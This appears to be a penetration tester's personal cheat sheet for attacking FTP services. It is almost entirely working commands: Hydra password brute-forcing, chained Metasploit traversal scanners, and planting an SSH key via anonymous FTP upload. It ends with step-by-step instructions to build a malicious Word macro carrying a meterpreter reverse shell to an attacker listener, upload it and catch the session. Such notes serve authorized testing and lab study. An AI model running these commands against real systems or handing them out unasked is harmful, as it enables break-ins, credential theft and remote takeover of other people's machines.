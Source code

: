 # Pennotes

This repository are notes that I use on pentests. If you don't understand, remember, this was not written for you.

## FTP 21

Enumeration one liners

**#Checklist**

```
$ Anonymous login
$ OS version
$ Other software you can find on the machine (Prog Files, yum.log, /bin)
$ password files
$ DLLs for msfpescan / BOF targets
$ Do you have UPLOAD potential?
$ Can you trigger execution of uploads?
$ Swap binaries?
$ Public exploits for ftp server software
```

**#download all dirs and files**

```
wget --mirror 'ftp://ftp_user:redcliff@10.10.10.59'
```

**#if PASV transfer is disabled**

```
wget --no-passive-ftp --mirror 'ftp://anonymous:anonymous@10.10.10.98'
```

**#If PASV is enabled**

```
sudo wget --mirror 'ftp://anonymous:anonymous@10.11.1.14'
```

**#Grab FTP Banner via telnet**

```
telnet -n 192.168.101.100 21
```

**#Grab FTP Certificate if existing**

```
openssl s_client -connect 192.168.101.100:21 -starttls ftp
```

**#nmap ftp**

```
nmap --script ftp-* -p 21 192.168.101.100
nmap -sC -sV 192.168.101.162 --script=ftp-anon

#Alternative without bruteforcing

nmap -p 21 --script="+ftp and not brute and not dos and not fuzzer" -vv -oN ftp > $ip
```

**#Connect with Browser**

```
ftp://anonymous:anonymous@192.168.101.100
```

**#Hydra Brute Force (Need Username)**

```
hydra -t 1 -l motherfucker -P rockyou.txt -vV 192.168.101.100 ftp
Hydra with Sparta custom list (need to download sparta )
hydra -s 21 -C /usr/share/sparta/wordlists/ftp-default-userpass.txt -u -f > $ip ftp
```

**#Msfconsole one liner**

```
msfconsole -q -x 'use auxiliary/scanner/ftp/anonymous; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/ftp_version; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/bison_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/colorado_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/titanftp_xcrc_traversal; set RHOSTS {IP}; set RPORT 21; run; exit'
```

\#Possibly **upload kali generated ssh-keys and deploy into target,** then ssh directly into user

```
ssh-keygen
ftp 10.10.10.10 anonymous:anonymous
put /root/.ssh/id_rsa.pub authorized_keys
ssh user@10.10.10.10

#If ftp enters passive mode at login , good indication of the presence 
of a firewall in the system
```

**#MS Office evil macro reverse shell (Uploaded on ftp)**

**First stage:**

1. msfconsole --→ search office macro
2. use /multi/fileformat/office\_word\_macro --→ show options
3. set meterpreter reverse listener

set payload windows/meterpreter/reverse\_tcp

4\)set listening host (kali) and disable payload handler

set lhost 192.168.119.177 #lport automatically set as 4444

set disablepayloadhandler false

run

**Second stage:**

File stored at : /home/kali/.msf4/local/msf.docm

1\)Change extension from .docm to .doc sudo mv msf.docm msf.doc

2\)Start meterpreter listener

set payload windows/meterpreter/reverse\_tcp set exitonsession false set lhost 192.168.119.177 set lport 4444 run -j

2\)use put command to upload ftp 10.10.10.10 21 put msf.doc exit

3\)Catch meterpreter session
